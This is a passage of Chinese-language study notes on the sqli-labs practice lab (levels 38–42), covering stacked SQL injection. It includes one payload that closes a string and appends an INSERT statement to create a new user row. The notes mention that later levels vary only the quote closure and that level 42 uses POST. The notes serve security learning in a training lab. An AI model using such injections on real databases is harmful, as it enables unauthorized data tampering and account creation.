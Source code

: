 这个题目还是源码比较重要一点

![image-20200914165510748](sql-lab.assets/image-20200914165510748.png)

这就使得我们可以进行更多的操作，如改payload:

```mysql
1';insert into users(id,username,password) values ('16','a','a')--+
```

## less39,40,41

跟上面那个一样，只不过闭合方式不一样。

## less42

POST类型的堆叠注入
